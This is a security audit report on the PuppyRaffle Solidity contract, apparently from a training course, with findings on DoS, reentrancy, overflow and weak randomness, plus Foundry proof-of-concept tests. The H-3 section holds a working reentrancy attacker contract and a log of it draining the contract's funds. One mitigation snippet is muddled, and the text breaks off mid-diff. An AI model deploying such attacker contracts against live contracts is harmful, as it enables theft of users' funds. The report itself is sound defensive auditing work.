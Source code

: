 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="../Logo.png" alt="Logo">
    <div>
    <h1>Protocol Audit Report</h1>
    <h3>Prepared by: Ikpong Joseph</h3>
    </div>
</div>

</body>
</html>



Prepared by: [Ikpong Joseph](https://github.com/Ikpong-Joseph)

Lead Auditors: 
- Ikpong Joseph

# Table of Contents
- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
- [High](#high)
    - [\[H-1\] Potential DoS in `PuppyRaffle::enterRaffle` function during unbounded for loop in checking for player address duplicates](#h-1-potential-dos-in-puppyraffleenterraffle-function-during-unbounded-for-loop-in-checking-for-player-address-duplicates)
    - [\[H-2\] The visibility of the `PuppyRaffle::withdrawFees` function should be `internal` and automatically called when the `PuppyRaffle::selectWinner` function is called to avoid locking owner fees in contract](#h-2-the-visibility-of-the-puppyrafflewithdrawfees-function-should-be-internal-and-automatically-called-when-the-puppyraffleselectwinner-function-is-called-to-avoid-locking-owner-fees-in-contract)
    - [\[H-3\] Potential reentrancy attack in `PuppyRaffle::refund` function can lead to loss of player funds and owner fees](#h-3-potential-reentrancy-attack-in-puppyrafflerefund-function-can-lead-to-loss-of-player-funds-and-owner-fees)
- [Medium](#medium)
    - [\[M-1\] Return value in `PuppyRaffle::getActivePlayerIndex` function can be misleading for a player whose index is originally 0, hence making them unable to get refunds by thinking they are not active](#m-1-return-value-in-puppyrafflegetactiveplayerindex-function-can-be-misleading-for-a-player-whose-index-is-originally-0-hence-making-them-unable-to-get-refunds-by-thinking-they-are-not-active)
    - [\[M-2\] Lack of Access Controls in `PuppyRaffle::withdrawFees` functions will allow malicious inddividuals to  withdraw all funds before or after a winner is selected](#m-2-lack-of-access-controls-in-puppyrafflewithdrawfees-functions-will-allow-malicious-inddividuals-to--withdraw-all-funds-before-or-after-a-winner-is-selected)
    - [\[M-3\] Arithmetic overflow and unsafe type casting in `PuppyRaffle::selectWinner` function can cause loss of fees for owner](#m-3-arithmetic-overflow-and-unsafe-type-casting-in-puppyraffleselectwinner-function-can-cause-loss-of-fees-for-owner)
    - [\[M-4\] Strict require statement in `PuppyRaffle::withdrawFees` function could potentially lock owner fees forever](#m-4-strict-require-statement-in-puppyrafflewithdrawfees-function-could-potentially-lock-owner-fees-forever)
    - [\[M-5\] Weak Random Number Generator in `PuppyRaffle::selectWinner` function can be manipulated to unfairly elect a winner](#m-5-weak-random-number-generator-in-puppyraffleselectwinner-function-can-be-manipulated-to-unfairly-elect-a-winner)
- [Informational](#informational)
    - [\[I-1\] Adhere to best Solidity style guide to ease reading of code](#i-1-adhere-to-best-solidity-style-guide-to-ease-reading-of-code)
    - [\[I-2\] Improper Naming convention for state variables in `PuppyRafflee` contract makes difficult in differentiating state variables](#i-2-improper-naming-convention-for-state-variables-in-puppyrafflee-contract-makes-difficult-in-differentiating-state-variables)
    - [\[I-3\] `PuppyRaffle::RaffleEnter` event does not follow best events naming convention](#i-3-puppyraffleraffleenter-event-does-not-follow-best-events-naming-convention)
    - [\[I-4\] Lack of proper indexing of events could pose problematic search of events on blockchain](#i-4-lack-of-proper-indexing-of-events-could-pose-problematic-search-of-events-on-blockchain)
    - [\[I-5\] Missing Events for key functions will make it difficult to track](#i-5-missing-events-for-key-functions-will-make-it-difficult-to-track)
    - [\[I-6\] Unused `PuppyRaffle::_isACtive` function can be used for more robust checks in the `PuppyRaffle::refund` function](#i-6-unused-puppyraffle_isactive-function-can-be-used-for-more-robust-checks-in-the-puppyrafflerefund-function)
    - [\[I-7\] Use of floating and outdated solditiy versions is not best practice and poses security threats](#i-7-use-of-floating-and-outdated-solditiy-versions-is-not-best-practice-and-poses-security-threats)
    - [\[I-8\] Undeclared arithmetic variables can cause difficulty understanding aritmetic operations in code](#i-8-undeclared-arithmetic-variables-can-cause-difficulty-understanding-aritmetic-operations-in-code)
- [Gas](#gas)
    - [\[G-1\] Caching of storage state variables in functions and loops will help reduce gas cost](#g-1-caching-of-storage-state-variables-in-functions-and-loops-will-help-reduce-gas-cost)

# Protocol Summary

The `PuppyRaffle` protocol lets an owner create a raffle for players to participate in with an entrance fee, and will randomly mint an nft to winner of raffle, after which the raffle will reset for next batch of players.

# Disclaimer

We make all effort to find as many vulnerabilities in the code in the given time period, but hold no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 

This audit of `PuppyRaffle` was conducted on commit hash `2a47715`. Find repo URL at [PuppyRaffle](https://github.com/Cyfrin/4-puppy-raffle-audit.git).

## Scope 
```
./src/
--- PuppyRaffle.sol
```

## Roles

- Owner: Deploys the `PuppyRaffle` contract, sets `entranceFee` and can change `feeAddress`.
- Players: Enter puppy raffle with value of `entranceFee`. And can get refunds, if they choose to, before winner is selected.
  
# Executive Summary

The review was conducted by 1 auditor, Ikpong Joseph, betwween the 19th to 25th of June, 2024. We timeboxed ourselves to find vulnerabilities and provide mitigations using manual review and static analysis tools --Slither and Aderyn.

## Issues found

17 vulnerabilities were discovered in the protocol. Vulnerabilities were classified as either High, Medium, Informational or Gas. 

| Severity | Number of Issues Found |
| -------- | ---------------------- |
| High     | 3                      |
| Medium   | 5                      |
| Info     | 8                      |
| Gas      | 1                      |
| Total    | 17                     |


# Findings

# High

### [H-1] Potential DoS in `PuppyRaffle::enterRaffle` function during unbounded for loop in checking for player address duplicates

**Description**

In the `PuppyRaffle::enterRaffle` function there is an unbounded for loop that checks for duplicate addresses in the dynamic `PuppyRaffle::players` state variable.
```javascript

function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
        }

        
        // Check for duplicates
@>      for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
        emit RaffleEnter(newPlayers);
    }

```
**Impact**

The problem with this is that given a scenario where an excess amount of players have entered the raffle, it will then become exceedingly expensive for other players to enter the raffle as a result of increased gas fees resulting from the massive continuous looping through the `PuppyRaffle::players` state variable to ensure that the new player has not entered the raffle already. This can be exploited by malicious actors or in a rush of innocence, making it impossible for other players to fairly participate in that raffle round.

**Proof of Concepts**

The following test was added to `test/PuppyRaffleTes.t.sol`
<details>
<summary>Code</summary>

```javascript
//PuppyRaffle::enterRaffle DoS PoC
    function test_enterRaffle_DoS() public {
        // FIRST BATCH OF ENTRIES
        //State number of players to be entered
@>      uint256 numberOfPlayers = 100;

        address[] memory playersFirst = new address[](100); //Stating size of players for []

@>      for(uint i = 0; i < numberOfPlayers; ++i) {
            //Adding players to []
            playersFirst[i] = address(int160(i));
        }

        vm.txGasPrice(1); // Set gas price in wei.

        uint256 initialGasForFirst100Players = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * numberOfPlayers}(playersFirst);
        uint256 finalGasForFirst100Players = gasleft();
        uint256 totalGasUsedForFirst100Players = (initialGasForFirst100Players - finalGasForFirst100Players) * tx.gasprice; 
        
        console.log("////FIRST BATCH/////");
        console.log("Gas before this first call was: ", initialGasForFirst100Players);
        console.log("Gas after this first call was: ", finalGasForFirst100Players);
        console.log("Total gas used for first 100 players is: ", totalGasUsedForFirst100Players);

        // SECOND BATCH OF ENTRIES
                
        address[] memory playersSecond = new address[](100); //Stating size of players for []
@>      for(uint i = 0; i < numberOfPlayers; ++i) {
            //Adding players to []
            playersSecond[i] = address(int160(i+numberOfPlayers));
        } //@audit Looping through the for loop for such a size causes a potential DoS due to high gas fees

        vm.txGasPrice(1);

        uint256 initialGasForSecond100Players = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * numberOfPlayers}(playersSecond);
        uint256 finalGasForSecond100Players = gasleft();
        uint256 totalGasUsedForSecond100Players = (initialGasForSecond100Players - finalGasForSecond100Players) * tx.gasprice;    // WHy the calculation?
        
        console.log("////SECOND BATCH/////");
        console.log("Gas before this second call was: ", initialGasForSecond100Players);
        console.log("Gas after this second call was: ", finalGasForSecond100Players);
        console.log("Total gas used for second 100 players is: ", totalGasUsedForSecond100Players);

@>      uint256 gasDifferencesInBothCalls =  totalGasUsedForSecond100Players - totalGasUsedForFirst100Players;
        console.log("Possible DoS effect in gas is: ", gasDifferencesInBothCalls);
    }
```
</details>

Run the test with `forge test --match-test test_enterRaffle_DoS -vvv`. The following results further demonstrate the expense in gas

<details>
<summary>Test Results</summary>

```javascript
[PASS] test_enterRaffle_DoS() (gas: 24362846)
Logs:
  ////FIRST BATCH/////
  Gas before this first call was:  9223372036854736828
  Gas after this first call was:  9223372036848484788
  Total gas used for first 100 players is:  6252040
  ////SECOND BATCH/////
  Gas before this second call was:  9223372036848463821
  Gas after this second call was:  9223372036830395679
  Total gas used for second 100 players is:  18068142
  Possible DoS effect in gas is:  11816102
```
</details>


**Recommended mitigation**

There are a possible number of mitigations that can be applied to this scenario.

1. One possible way to avoid this is to allow only a max of addresses to enter the raffle. This will help limit the gas fees at any time.

<details>
<summary>PoC</summary>

```javascript
//PuppyRaffle::enterRaffle DoS Mitigation
    function test_enterRaffle_DoS_mitigation() public {
        // FIRST BATCH OF ENTRIES
        //State number of players to be entered
        uint256 numberOfPlayers = 10;

        address[] memory playersFirst = new address[](10); //Stating size of players for []

        for(uint i = 0; i < numberOfPlayers; ++i) {
            //Adding players to []
            playersFirst[i] = address(int160(i));
        }

        vm.txGasPrice(1); // Set gas price in wei.

        uint256 initialGasForFirst100Players = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * numberOfPlayers}(playersFirst);
        uint256 finalGasForFirst100Players = gasleft();
        uint256 totalGasUsedForFirst100Players = (initialGasForFirst100Players - finalGasForFirst100Players) * tx.gasprice;    // WHy the calculation?
        
        console.log("////FIRST BATCH/////");
        console.log("Gas before this first call was: ", initialGasForFirst100Players);
        console.log("Gas after this first call was: ", finalGasForFirst100Players);
        console.log("Total gas used for first 100 players is: ", totalGasUsedForFirst100Players);

        // SECOND BATCH OF ENTRIES
                
        address[] memory playersSecond = new address[](10); //Stating size of players for []
        for(uint i = 0; i < numberOfPlayers; ++i) {
            //Adding players to []
            playersSecond[i] = address(int160(i+numberOfPlayers));
        }

        vm.txGasPrice(1);

        uint256 initialGasForSecond100Players = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * numberOfPlayers}(playersSecond);
        uint256 finalGasForSecond100Players = gasleft();
        uint256 totalGasUsedForSecond100Players = (initialGasForSecond100Players - finalGasForSecond100Players) * tx.gasprice;    // WHy the calculation?
        
        console.log("////SECOND BATCH/////");
        console.log("Gas before this second call was: ", initialGasForSecond100Players);
        console.log("Gas after this second call was: ", finalGasForSecond100Players);
        console.log("Total gas used for second 100 players is: ", totalGasUsedForSecond100Players);

        uint256 gasDifferencesInBothCalls =  totalGasUsedForSecond100Players - totalGasUsedForFirst100Players;
        console.log("Possible DoS effect in gas is: ", gasDifferencesInBothCalls);
    }
```
</details>

As such, the following line should be added to `PuppyRaffle::enterRaffle`
```diff
+         require(players.length <= 10, "PuppyRaffle: Need at max 10 players"); //@audit  DoSMitigation
```

Upon this modification, the PoC test would now fail while the Mitigation test passes

```javascript
forge test --match-test test_enterRaffle_DoS
[⠃] Compiling...
No files changed, compilation skipped

Running 2 tests for test/PuppyRaffleTest.t.sol:PuppyRaffleTest
[FAIL. Reason: revert: PuppyRaffle: Need at max 10 players] test_enterRaffle_DoS() (gas: 6310032)
[PASS] test_enterRaffle_DoS_mitigation() (gas: 697556)
Test result: FAILED. 1 passed; 1 failed; 0 skipped; finished in 31.79ms
````

<details>
<summary>Mitigation Test Gas Results</summary>

```javascript
[PASS] test_enterRaffle_DoS_mitigation() (gas: 697304)
Logs:
  ////FIRST BATCH/////
  Gas before this first call was:  9223372036854750058
  Gas after this first call was:  9223372036854463856
  Total gas used for first 10 players is:  286202
  ////SECOND BATCH/////
  Gas before this second call was:  9223372036854456319
  Gas after this second call was:  9223372036854061310
  Total gas used for second 10 players is:  395009
  Possible DoS effect in gas is:  108807
```

</details>

2. Possibly do away with checking duplicates since a person could easily create more address from wallets and might not use the same address.
3. If the check for duplicates is mandatory, consider the use of mapping rather than an array. @audit Write test that shows gas prices if a mapping(uint256 playerID => address player) is used instead of an array.

### [H-2] The visibility of the `PuppyRaffle::withdrawFees` function should be `internal` and automatically called when the `PuppyRaffle::selectWinner` function is called to avoid locking owner fees in contract

**Description**

The visibility of the `PuppyRaffle::withdrawFees` function is currently set to external which can allow any user try to call it. This can lead to the contract's owner losing out on his rightful fees for setting up the `PuppyRaffle` contract. There is a strict requirement in the `PuppyRaffle::withdrawFees` function that allows the owner only withdraw fees when the contract balance equals the `PuppyRafflee::totallFees` state variable.


**Impact**

Any malcious user can try their hand at calling it if they were able to change the fee address. This can lead to the contract's owner losing out on his rightful fees for setting up the `PuppyRaffle` contract.

And the strict withdrawal implentation will never allow the owner easily withdraw his funds if, for instance, a winner has been selected and new players have enterred raffle.

**Proof of Concepts**

```javascript
function withdrawFees() external {
        require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

**Recommended mitigation**

The visibility of the `PuppyRaffle::withdrawFees` function should be `internal`.

```diff
- function withdrawFees() external {
+ function withdrawFees() internal {
```

And it should be added to the `PuppyRaffle::selectWinner` function so the require statement will always hold.

```diff
function selectWinner() external {
        /*SNIPPED*/

        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        
        totalFees = totalFees + uint64(fee);
        /*SNIPPED*/

        previousWinner = winner;
        (bool success, ) = winner.call{value: prizePool}(""); //@auditIs this safe? Other methods
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
+       withdrawFees()
        _safeMint(winner, tokenId);
    }

```


### [H-3] Potential reentrancy attack in `PuppyRaffle::refund` function can lead to loss of player funds and owner fees

**Description**

The `PuppyRaffle::refund` function does not follow the Checks-Effects-Interaction (CEI) pattern when performing a refund call when called by an active player. The function advances to trasnfer the entrance fees to an active player before updating the state.

```javascript
function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(
            playerAddress == msg.sender,
            "PuppyRaffle: Only the player can refund"
        );
        require(
            playerAddress != address(0),
            "PuppyRaffle: Player already refunded, or is not active"
        );

@>      payable(msg.sender).sendValue(entranceFee); //@audit Transfers funds to player (Interaction)

@>      players[playerIndex] = address(0); //@audit Now updates state by removing player from playees[] (Effects)
        emit RaffleRefunded(playerAddress);
    }
```
**Impact**

This simple mistake is expensive. It could lead to the loss of all funds deposited into the `PuppyRaffle` by players, leading to loss of winner prize and owner fees.

**Proof of Concepts**

To prove this concept I created a `Reentrancy Attacker` contract in the `test/PuppyRaffleTest.t.sol` and tested it.

<details>
<summary>Reentrancy Attacker Contract</summary>

```javascript
contract ReentrancyAttacker {

    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;
    constructor (PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        // Get Raffle entrance fee
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        // Add contract as player
        address[] memory players = new address[](1); 
        players[0] = address(this); // This contract will be added as a player to puppyRaffle
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        // Refund entrance fee
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);

    }

    //Now a function to keep stealing money
    function _stealMoreFromRaffle() internal  {
        // It is set as internal so it is called in fallback & receive()
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    receive() external payable {
        _stealMoreFromRaffle();
    }

    fallback() external payable {
        _stealMoreFromRaffle();
    }
}

```

</details>



<details>
<summary>Test for Reentrancy In `PuppyRafffle Refund Function</summary>

```javascript
function testRefundReentrancy() external {
        uint256 numberOfPlayers = 100;

        address[] memory playersFirst = new address[](100); //Stating size of players for []
        
        for(uint i = 1; i < numberOfPlayers; ++i) {
            //Adding players to []
            playersFirst[i] = address(int160(i));
        }

        puppyRaffle.enterRaffle{value: entranceFee * numberOfPlayers}(playersFirst);

        
        ReentrancyAttacker attacker = new ReentrancyAttacker (puppyRaffle);

        address attackUser = makeAddr("attackUser");

        vm.deal(attackUser, 1 ether);
        uint256 initialPuppyBalance = address(puppyRaffle).balance;
        uint256 initialAttackerBalance = address(attacker).balance;
        

        
        vm.prank(attackUser);
        attacker.attack{value: entranceFee}();


        uint256 finialPuppyBalance = address(puppyRaffle).balance;
        uint256 finalAttackerBalance = address(attacker).balance;

        
    
        console.log("Puppy balance before reentrancy", initialPuppyBalance);
        console.log("Initial attacker balance", initialAttackerBalance);
        console.log("Puppy after before reentrancy", finialPuppyBalance);
        console.log("Final attacker balance", finalAttackerBalance);
    }
```

</details>

<details>
<summary>Results From Test</summary>

```javascript
forge test --match-test testRefundReentrancy -vvv
[⠘] Compiling...
No files changed, compilation skipped

Running 1 test for test/PuppyRaffleTest.t.sol:PuppyRaffleTest
[PASS] testRefundReentrancy() (gas: 11647730)
Logs:
  Puppy balance before reentrancy 100000000000000000000
  Initial attacker balance 0
  Puppy after before reentrancy 0
  Final attacker balance 101000000000000000000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 66.42ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

</details>

**Recommended mitigation**

1. Adhering to CEI pattern will resolve this issue. If implemented, the above test should now fail

<details>
<summary>CEI Mitigation</summary>

```javascript
function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(
            playerAddress == msg.sender,
            "PuppyRaffle: Only the player can refund"
        );
        require(
            playerAddress != address(0),
            "PuppyRaffle: Player already refunded, or is not active"
        );
        
        payable(playerAddress).sendValue(entranceFee); //@audit Remove
        players[playerIndex] = address(0); //@audit Add

        payable(playerAddress).sendValue(entranceFee); //@audit Add
        players[playerIndex] = address(0); //@audit Remove

        
        emit RaffleRefunded(playerAddress);
```
</details>

2. Use of OZ Reentrancy Guard.


# Medium

### [M-1] Return value in `PuppyRaffle::getActivePlayerIndex` function can be misleading for a player whose index is originally 0, hence making them unable to get refunds by thinking they are not active

**Description**

The  `PuppyRaffle::getActivePlayerIndex` function returns the index of an active player in the `PuppyRaffle::players` array. It returns 0 when a non-player calls it. This can be misleading for a player whose index is originally 0, since this is called before `PuppyRaffle::refund` function. It can make such a player believe he isn't active, and as such cannot call the `PuppyRaffle::refund` function. This means they lose their money to `PuppyRaffle`.

**Impact**

It can prevent an index 0 active player from calling the `PuppyRaffle::refund` function if they wish to withdraw from the raffle. They will lose their money to `PuppyRaffle`.

**Proof of Concepts**

The following test passes

<details>
<summary>Code</summary>

```javascript
 function testGetActivePlayerIndexReturnsZeroForNonPlayer() public {
        address[] memory players = new address[](2);
        players[0] = playerOne;
        players[1] = playerTwo;
        puppyRaffle.enterRaffle{value: entranceFee * 2}(players);

        assertEq(puppyRaffle.getActivePlayerIndex(playerOne), 0); //@audit Genuine player at index 0
        assertEq(puppyRaffle.getActivePlayerIndex(playerTwo), 1);
        assertEq(puppyRaffle.getActivePlayerIndex(playerThree), 0); //@audit Non-player given 0
    }
```
</details>


**Recommended mitigation**

A bool value was introduced into `PuppyRaffle::getActivePlayerIndex` function to allow custom error be returned if player was not active rather than 0.

<details>
<summary>Code</summary>

```diff
function getActivePlayerIndex(address player) external view returns (uint256) {
+    bool Found = false; 
    for (uint256 i = 0; i < players.length; i++) {
        if (players[i] == player) {
+            Found = true;
            return i;
        }
    }
+    require(false, "Player is not active");
-    return 0;
}

```
</details>


### [M-2] Lack of Access Controls in `PuppyRaffle::withdrawFees` functions will allow malicious inddividuals to  withdraw all funds before or after a winner is selected 

**Description**

The `PuppyRaffle::withdrawFees` function is intended to be used only by the `PuppyRaffle` contract owner to withdraw fees after a raffle winner has been selected. However it stands as an external contract without proper access control.

**Impact**

Though unlikely in likelihood, a malicious user or actor whom is able to bypass the security of `PuppyRaffle::changFeeAddress` can change the fee address of the contract and steal all fees by calling  `PuppyRaffle::withdrawFees` function. 

**Proof of Concepts**

Here you will see how the function lacks proper access control

<details>
<summary>PoC</summary>

```javascript
 function withdrawFees() external { //@audit The onlyOwner modifier should be in function declaration
        require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }
```

</details>

**Recommended mitigation**

The following line should be replaced.

```diff
- function withdrawFees() external { 
+ function withdrawFees() external onlyOwner{ 
```

### [M-3] Arithmetic overflow and unsafe type casting in `PuppyRaffle::selectWinner` function can cause loss of fees for owner

**Description**

The `PuppyRaffle::totalFees` state variable is of type `uint64`. These types usually have a max value of about  `18446744073709551615`. Around 18.4 ether. During the calculation of `totalFees` in `PuppyRaffle::selectWinner` function, the `uint256 fees` variable is type-casted to `uint64(fees)` and then added to the `PuppyRaffle::totalFees` state variable.

**Impact**

The `PuppyRaffle::totalFees` state variable is of type `uint64`. These types usually have a max value of about  `18446744073709551615`. Around 18.4 ether. This means that theoretically, and by design, since total fees is 20% of `entranceFees * number of players`, if 100 players enter raffle at an entrance fee of 1 ether (1e18), then owner fees should be 20 ether. But this exceeds the `uint64` type, hence it will overflow to a much lower amount, leading to loss of fees. By right this overflow should revert, but given the Solidity version in use, it doesn't revert.

Also in calculating fees in `PuppyRaffle::selectWinner` function, the `uint256 fees` variable is typecasted to a `uint64(fees)` when added to the `PuppyRaffle::totalFees` state variable. If before typecasting, the `uint256 fees` variable was larget than the max `uint64`, say 20 ether, when casted to `uint64` only less than 2 ether will be recorded. This leads to loss of fees for the owner. 

**Proof of Concepts**

The following test was run

<details>
<summary>Code</summary>

```javascript
function testTotalFeesOverflow() public playersEntered {
        // We finish a raffle of 4 to collect some fees // 4000000000000000000
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        uint256 startingTotalFees = puppyRaffle.totalFees();
        console.log("Starting total fees after a raffle of 4 players", startingTotalFees);
        // startingTotalFees = 800000000000000000
        //                                                                            18600000000000000000 (Proper total fees)
        // We then have 89 players enter a new raffle // 89000000000000000000. fees = 17800000000000000000 Ending fees after 89 players raffle
        uint256 playersNum = 89; //                                                     800000000000000000  StartingTotalFees
        address[] memory players = new address[](playersNum); //                        153255926290448384  Overflowed ending fees
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
        // We end the raffle
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        // And here is where the issue occurs
        // We will now have fewer fees even though we just finished a second raffle
        puppyRaffle.selectWinner();
        // The total fees now should be 18600000000000000000 (uint256).
        // But since it has to be stored a uint64, Only the lower part is retained during the overflow
        // 2 posiible mitigations. (1) Owner withdraw fees after each raffle. (2) Use OZ safemath Library.

        uint256 endingTotalFees = puppyRaffle.totalFees();

        console.log("ending total fees", endingTotalFees);
        console.log("By right the total fees should have been", (((entranceFee * 4) * 20)/100) + (((entranceFee * playersNum) * 20)/100));
        console.log("Through this overflow the owner has lost", startingTotalFees + (((entranceFee * playersNum) * 20)/100) - endingTotalFees);
        
        assert(endingTotalFees < startingTotalFees);

        // We are also unable to withdraw any fees because of the require check
        vm.prank(puppyRaffle.feeAddress());
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
    }
```

</details>

**Recommended mitigation**

There are 3 posiible mitigations.
1. Owners is automatically credited with fees after each raffle, so no `PuppyRaffle::totalFees` state variable is required.
2. Use OZ safemath Library.
3. Change the `PuppyRaffle::totalFees` state variable to type `uint256` and remove the `uint64(fees)`
```diff
- uint64 public totalFees = 0;
+ uint256 public totalFees = 0;

/*SNIPPED*/

- totalFees = totalFees + uint64(fee);
+ totalFees = totalFees + fee;
```


### [M-4] Strict require statement in `PuppyRaffle::withdrawFees` function could potentially lock owner fees forever

**Description**

The `PuppyRaffle::totalFees` state variable is of type `uint64` that stores the total fees allocated to the contract owner for each raffle session after a winner has been selected via the `PuppyRaffle::selectWinner` function. These types usually have a max value of about  `18446744073709551615`. Around 18.4 ether. The strict, and wrong, require staement check found in the `PuppyRaffle::withdrawFees` function seems like trouble.

**Impact**

In the require statement of the `PuppyRaffle::withdrawFees` function, `totalFees` is type-casted as a `uint256`. But the `PuppyRaffle::totalFees` state variable is of type `uint64`. This check will never allow the owner to withdraw his earned fees. This is generally reffered to a `Mishandling of ETH` or `Stuck ETH`.

**Proof of Concepts**

```javascript

uint64 public totalFees = 0;

/*SNIPPED*/

function withdrawFees() external {
        require(
@>          address(this).balance == uint256(totalFees), 
            "PuppyRaffle: There are currently players active!"
        );
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success, ) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }
```

**Recommended mitigation**

The following should be implemented in the `PuppyRaffle::withdrawFees` function.

1. 

```diff
-   require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
+   require(address(this).balance == totalFees, "PuppyRaffle: There are currently players active!");
```

Better yet, you change the `PuppyRaffle::totalFees` state variable to a `uint256` and revert the `uint64` type cast for fees in `PuppyRaffle::selectWinner` function to allow for large fees.

2. Also consider using solidity versions 0.8.x.
3. 

```diff
-   require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
+   require(address(this).balance >= totalFees, "PuppyRaffle: There are currently players active!");
```

### [M-5] Weak Random Number Generator in `PuppyRaffle::selectWinner` function can be manipulated to unfairly elect a winner

**Description**

To select a winner in the `PuppyRaffle::selectWinner` function the winner index is randomly calculated as 
```javascript
uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
address winner = players[winnerIndex];
```

Use of block.timestamp is insecure. There is no true source of randomness present in the `winnerIndex` computation. 

**Impact**

The use of possibly known variables like `block.timestamp` and `block.difficulty` can be possibly used in manipulating the outcome of the raffle to favour certain parties. This robs the protocol of its fairness in selecting a random user.

**Recommended mitigation**

Consider using a decentralized oracle for the generation of random numbers, such as [Chainlinks VRF](https://docs.chain.link/vrf).


# Informational

### [I-1] Adhere to best Solidity style guide to ease reading of code

**Description**

The functins to the `PuppyRafflle` contract do not follow the best styling for solidity contracts.

**Recommended mitigation**

Follow the layout below
```javascript
Layout of Contract:
version
imports
errors
interfaces, libraries, contracts
Type declarations
State variables
Events
Modifiers
Functions

Layout of Functions:
constructor
receive function (if exists)
fallback function (if exists)
external
public
internal
private
view & pure functions
```



### [I-2] Improper Naming convention for state variables in `PuppyRafflee` contract makes difficult in differentiating state variables

**Description**

The many state variables in the `PuppyRafflee` contract do not follow the conventional naming convention.

**Impact**

This makes it difficult in reading code, determining where the state variable is coming from and differentiationg from local variables.

**Proof of Concepts**

```javascript
    uint256 public immutable entranceFee; 

    address[] public players;
    
    uint256 public raffleDuration;
    uint256 public raffleStartTime;
    address public previousWinner;

    // We do some storage packing to save gas
    address public feeAddress;
    uint64 public totalFees = 0; 

    // mappings to keep track of token traits
    mapping(uint256 => uint256) public tokenIdToRarity;
    mapping(uint256 => string) public rarityToUri;
    mapping(uint256 => string) public rarityToName;

    // Stats for the common puppy (pug)
    string private commonImageUri =
        "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";
    uint256 public constant COMMON_RARITY = 70;
    string private constant COMMON = "common";

    // Stats for the rare puppy (st. bernard)
    string private rareImageUri =
        "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";
    uint256 public constant RARE_RARITY = 25;
    string private constant RARE = "rare";

    // Stats for the legendary puppy (shiba inu)
    string private legendaryImageUri =
        "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";
    uint256 public constant LEGENDARY_RARITY = 5;
    string private constant LEGENDARY = "legendary";

```

**Recommended mitigation**

The following should be implemented

```diff
-   uint256 public immutable entranceFee; 
+   uint256 public immutable i_entranceFee;

-   address[] public players;
+   address[] public s_players;

    // address[][10] public players;

-   uint256 public raffleDuration; //@audit Set in constructor and never changed
+   uint256 public i_raffleDuration;

-   uint256 public raffleStartTime;
+   uint256 public s_raffleStartTime;

-   address public previousWinner;
+   address public s_previousWinner;

    // We do some storage packing to save gas

-  address public feeAddress;
+  address public s_feeAddress;

-   uint64 public totalFees = 0; 
